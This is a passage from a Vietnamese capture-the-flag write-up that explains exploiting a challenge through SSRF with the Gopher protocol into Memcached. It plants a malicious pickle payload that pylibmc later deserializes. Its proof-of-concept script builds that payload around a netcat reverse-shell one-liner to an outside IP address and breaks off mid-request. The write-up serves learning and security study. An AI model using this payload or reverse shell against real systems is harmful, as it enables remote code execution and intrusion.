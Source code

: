 Vậy chúng ta trigger được payload bằng cách nào? Cùng xem lại đoạn code sau:

```python {hl_lines=[2, 8]}
def racingboiz101(_key, _value):
    _speedup101 = pylibmc.Client(["127.0.0.1:11211"], binary=False)
    if _speedup101.get(_key) == None:
        _speedup101.set(_key, "Copyright@HelloVietNamv2", time=60)
        _speedup101.set(_value, _value, time=60)
        return _speedup101.get(_key), _speedup101.get(_value)
    else:
        _speedup101.set(_value, _value, time=60)
        return _speedup101.get(_key), _speedup101.get(_value)
```

Vậy để trigger được thì chúng ta cần phải `get` được key mà ta đã `set` cho Memcached trước đó thông qua Gopher protocol.

### Exploit
Dùng Gopher protocol request đến Memcached để `set` 1 key với tên bất kì (gọi key này tên là `this_is_key`) với value là pickle serialized data (aka payload) của chúng ta. Sau đó gọi đến route `/GIFmaker` để trigger cái key này.

Memcached command của chúng ta như sau:
```
set this_is_key 1 10 <payload_length>
<payload>
```
- `this_is_key` - là tên key mà chúng ta muốn set.
- `1` - đây là tham số `flags`, dùng để cho pylibmc biết khi `get` key này sẽ phải deserialize bằng Pickle.
- `10` - expired time, tính bằng giây.
- `<payload_length>` và `<payload>` thì chắc không cần phải giải thích nữa.

#### Proof-of-concept
```python
from time import time
from os import system
import urllib
import pickle
import requests
import random
import sys

ALPHA = "abcdefghijklmnopqrstuvwxyz"
def rand_string(length):
    return ''.join([random.choice(ALPHA) for _ in range(length)])


class Exploit(object):
    def __reduce__(self):
        return system, ('rm -f /tmp/f; mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 3.0.119.151 3000 > /tmp/f',)


title = rand_string(6)
payload = pickle.dumps(Exploit())
payload = [
    '',
    'set %s 1 10 %d' % (title, len(payload)),
    payload,
    ''
]

print 'Start requesting...'
try:
    res = requests.post('http://hellovietnamv2.0x1337.space:31337/loadexternalvideo', data={
```